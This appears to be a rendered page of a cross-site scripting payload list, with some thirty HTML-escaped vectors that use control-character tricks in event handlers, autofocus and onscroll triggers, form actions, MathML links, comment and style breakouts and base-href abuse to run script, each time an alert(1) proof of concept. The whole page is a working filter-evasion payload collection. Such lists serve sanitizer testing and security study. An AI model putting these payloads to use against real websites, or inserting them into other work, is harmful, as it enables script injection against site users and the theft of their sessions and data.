 `"'&gt;&lt;img src=xxx:x onerror\x0B=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x00=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x0C=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x0D=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x20=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x0A=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x onerror\x09=javascript:alert(1)&gt;

&lt;script&gt;javascript:alert(1)&lt;\x00/script&gt;

&lt;img src=# onerror\x3D"javascript:alert(1)" &gt;

&lt;input onfocus=javascript:alert(1) autofocus&gt;

&lt;input onblur=javascript:alert(1) autofocus&gt;&lt;input autofocus&gt;

&lt;video poster=javascript:javascript:alert(1)//

&lt;body onscroll=javascript:alert(1)&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;...&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;input autofocus&gt;

&lt;form id=test onforminput=javascript:alert(1)&gt;&lt;input&gt;&lt;/form&gt;&lt;button form=test onformchange=javascript:alert(1)&gt;X

&lt;video&gt;&lt;source onerror="javascript:javascript:alert(1)"&gt;

&lt;video onerror="javascript:javascript:alert(1)"&gt;&lt;source&gt;

&lt;form&gt;&lt;button formaction="javascript:javascript:alert(1)"&gt;X

&lt;body oninput=javascript:alert(1)&gt;&lt;input autofocus&gt;

&lt;math href="javascript:javascript:alert(1)"&gt;CLICKME&lt;/math&gt;  &lt;math&gt; &lt;maction actiontype="statusline#http://google.com" 

xlink:href="javascript:javascript:alert(1)"&gt;CLICKME&lt;/maction&gt; &lt;/math&gt;

&lt;frameset onload=javascript:alert(1)&gt;

&lt;table background="javascript:javascript:alert(1)"&gt;

&lt;!--&lt;img src="--&gt;&lt;img src=x onerror=javascript:alert(1)//"&gt;

&lt;comment&gt;&lt;img src="&lt;/comment&gt;&lt;img src=x onerror=javascript:alert(1))//"&gt;

&lt;![&gt;&lt;img src="]&gt;&lt;img src=x onerror=javascript:alert(1)//"&gt;

&lt;style&gt;&lt;img src="&lt;/style&gt;&lt;img src=x onerror=javascript:alert(1)//"&gt;

&lt;li style=list-style:url() onerror=javascript:alert(1)&gt; &lt;div style=content:url(data:image/svg+xml,%%3Csvg/%%3E);visibility:hidden onload=javascript:alert(1)&gt;&lt;/div&gt;

&lt;head&gt;&lt;base href="javascript://"&gt;&lt;/head&gt;&lt;body&gt;&lt;a href="/. /,javascript:alert(1)//#"&gt;XXX&lt;/a&gt;&lt;/body&gt;
